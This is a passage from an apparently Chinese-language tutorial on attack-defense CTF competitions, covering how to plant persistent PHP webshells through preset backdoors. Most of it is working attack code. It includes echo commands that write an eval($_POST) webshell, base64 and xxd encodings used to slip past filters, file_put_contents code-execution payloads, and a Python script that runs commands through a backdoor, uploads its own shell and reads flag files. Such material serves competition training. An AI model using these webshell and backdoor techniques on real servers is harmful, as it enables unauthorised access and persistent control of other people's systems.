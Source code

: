 如果嫌写脚本麻烦，可以把flag存入字典，利用burp爆破，也可以实现批量提交flag。不过大括号`{}`可能会被编码导致flag错误。

### 4.利用后门写shell

预留后门可能会被删除，要想持续拿分需要写shell，这里利用命令执行和代码执行来写马
**利用命令执行写马**

```
1.Linux下写shell
$ echo "<?php @eval(\$_POST[123]); ?>" > webshell.php
$ echo PD9waHAgQGV2YWwoJF9QT1NUWzEyM10pOyA/Pg==|base64 -d > webshell.php   #base64编码绕过
$ echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php #xxd绕过


2.windows下写shell
>echo ^<?php eval($^_POST[123]); ?^> > webshell.php
```

**利用代码执行写马**

```
?code=fputs(fopen('./webshell.php.php','w'),'<?php @eval($_POST[123]);?>');

?code=file_put_contents('webshell.php.php', '<?php @eval($_POST[123]); ?> ');

?code=file_put_contents($_POST[f], $_POST[d]); 
post: f=webshell.php&d=<?php @eval($_POST[123]); ?>
```

然后利用脚本实现

```
# coding: UTF-8
import requests

url = "http://192.168.182.130:8808"

shell_path = url + "/include/shell.php"
shell_passwd = "admin_ccmd"

#利用预留后门
payload = {shell_passwd: 'system(\'cat /f*\');'}
res = requests.post(shell_path, payload)
print(res.text)


#payload1利用预留后门上传shell
payload1 = {shell_passwd: 'system(\'echo "<?php @eval(\$_POST[atkx]);?>" > /var/www/html/atkx.php\');'}
res = requests.post(shell_path, payload1)
print("shell已上传")

#payload2利用预留后门上传shell，并getflag
my_shell_path = url + "/atkx.php"
my_shell_passwd = "atkx"
payload2 = {my_shell_passwd: 'system(\'cat /f*\');'}
res = requests.post(my_shell_path, payload2)
print(res.text)
```

